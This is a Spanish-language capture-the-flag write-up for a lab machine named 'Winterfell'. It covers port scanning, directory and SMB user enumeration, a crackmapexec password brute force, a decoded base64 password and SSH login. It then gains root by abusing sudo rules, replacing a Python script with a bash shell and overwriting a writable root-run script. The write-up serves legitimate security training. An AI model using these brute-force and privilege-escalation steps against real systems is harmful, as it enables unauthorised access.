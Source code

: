 ```yaml
---
description: '✍️ Autor: Zunderrub🔍 Dificultad: Fácil  📅 Fecha de creación: 16/07/2024'
---
```


# Winterfell

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (807).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más. También tenemos un servicio **SMB**.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web ambientada en la serie de Juego de Tronos.

Ahora buscaremos directorios y archivos con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,txt,php,xml
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Descubrimos un directorio que nos llama la atención que es `/dragon`.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vamos a indagar si tenemos acceso al servicio **SMB**.

```bash
smbclient -L 172.17.0.2
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vamos a descubrir usuarios válidos para **SMB**.

```bash
enum4linux 172.17.0.2
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Hemos descubierto un usuario **jon**. Teniendo en cuenta que la máquina trata de la serie posiblemente sea algún título una contraseña por lo que lo copiamos en un archivo y hacemos fuerza bruta.

```bash
crackmapexec smb 172.17.0.2 -u jon -p titulos.txt
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Con esas credenciales descubiertas nos conectamos a SMB.

```bash
smbclient \\\\172.17.0.2\\shared -U jon
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Mostramos el contenido del archivo.

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Decodificamos la contraseña que está en **base64**.

```bash
echo "aGlqb2RlbGFuaXN0ZXI=" | base64 -d
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos conectamos con esas credenciales al usuario **jon**.

```bash
ssh jon@172.17.0.2
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Lo que hacemos es borrar el archivo y crear lo mismo pero con un contenido para tener una shell.

```bash
rm .mensaje.py
nano /home/jon/.mensaje.py
```

```bash
import os
os.system('/bin/bash')
```

```bash
sudo -u aria /usr/bin/python3 /home/jon/.mensaje.py
```

<figure><img src="../../.gitbook/assets/image (13) (1) (1).png" alt=""><figcaption></figcaption></figure>

Los binarios que tenemos a nuestra disposición nos permiten leer y listar archivos que pertenecen a Daenerys. Por lo tanto, podemos suponer que uno de los pasos a seguir es explorar algún archivo en su directorio home. Primero, listamos el contenido del directorio y encontramos un archivo llamado `mensajeParajon`, que podría ser relevante para nuestras acciones.

```bash
sudo -u daenerys ls /home/daenerys
sudo -u daenerys cat /home/daenerys/mensajeParaJon
```

<figure><img src="../../.gitbook/assets/image (14) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos logueamos con **daenerys** con la contraseña descubierta.

<figure><img src="../../.gitbook/assets/image (15) (1) (1).png" alt=""><figcaption></figcaption></figure>

Lo primero que hacemos es leer el archivo y descubrimos que es un script en bash que establece una conexión con otra dirección IP. Sin embargo, al revisar los permisos, notamos que tenemos acceso a él. Por lo tanto, para escalar privilegios, solo necesitamos editar el archivo.

```bash
#!/bin/bash
bash
```

Ejecutamos.

```bash
sudo /usr/bin/bash /home/daenerys/.secret/.shell.sh
```

<figure><img src="../../.gitbook/assets/image (16) (1) (1).png" alt=""><figcaption></figcaption></figure>
